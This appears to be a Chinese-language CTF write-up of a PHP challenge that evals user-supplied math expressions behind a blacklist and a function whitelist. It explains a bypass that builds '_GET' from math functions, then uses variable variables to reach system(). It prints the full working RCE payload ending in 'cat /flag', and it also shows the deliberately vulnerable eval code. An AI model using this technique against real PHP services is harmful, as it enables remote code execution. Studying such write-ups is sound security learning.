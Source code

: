 ![[Pasted image 20221202195606.png]]

---
首页长这样
```php
<?php
error_reporting(0);
//听说你很喜欢数学，不知道你是否爱它胜过爱flag
if(!isset($_GET['c'])){
    show_source(__FILE__);
}else{
    //例子 c=20-1
    $content = $_GET['c'];
    if (strlen($content) >= 80) {
        die("太长了不会算");
    }
    $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]'];
    foreach ($blacklist as $blackitem) {
        if (preg_match('/' . $blackitem . '/m', $content)) {
            die("请不要输入奇奇怪怪的字符");
        }
    }
    //常用数学函数http://www.w3school.com.cn/php/php_ref_math.asp
    $whitelist = ['abs', 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh', 'base_convert', 'bindec', 'ceil', 'cos', 'cosh', 'decbin', 'dechex', 'decoct', 'deg2rad', 'exp', 'expm1', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log1p', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'mt_srand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh'];
    preg_match_all('/[a-zA-Z_\x7f-\xff][a-zA-Z_0-9\x7f-\xff]*/', $content, $used_funcs);  
    foreach ($used_funcs[0] as $func) {
        if (!in_array($func, $whitelist)) {
            die("请不要输入奇奇怪怪的函数");
        }
    }
    //帮你算出答案
    eval('echo '.$content.';');
}
```

---
emmm，只给数学函数感觉限死了，但`php`绝对不会让我们失望QwQ

总体上就是利用可变变量和可变函数

---
首先好像要拿一个变量承载字符串，于是选择最短的`pi`

为了保持在80个字符之内，决定给`pi`赋一个`"_GET"`，也就是
```php
$pi="_GET";
```
然后通过`pi`来绕过过滤（这个大括号访问数组和字符串的特性好像在`php7.4`之后被删了QAQ）
```php
$$pi{abs}($$pi{cos})
```
这个会变成
```php
$_GET{abs}($_GET{cos})
```
我们传入
```php
abs=system&cos=<command>
```
即可

问题转化为通过数学函数构造出`'_GET'`

虽然但是，下划线和大写字母好难弄QAQ

![[Pasted image 20221202214151.png]]

这个东西文档的解释完全没看懂哇wuwuwu

意思好像就是说传入参数是一群字符的`ascii`码的十六进制形式连在一块，然后返回值是还原这些十六进制形式为原字符的结果

也就是说只要构造出了`"hex2bin"`就可以通过`hex2bin`和`dechex`构造出`"_GET"`了

`"hex2bin"`全是字母数字，可以直接`base_convert`QwQ

![[Pasted image 20221202215159.png]]

![[Pasted image 20221202215606.png]]

所以就可以构造出最终`payload`啦
```php
/?c=$pi=base_convert(37907361743,10,36)(dechex(1598506324));$$pi{abs}($$pi{cos})&abs=system&cos=cat /flag
```
![[Pasted image 20221202220340.png]]

#Web #PHP #RCE #function #数学 #可变变量 #bypass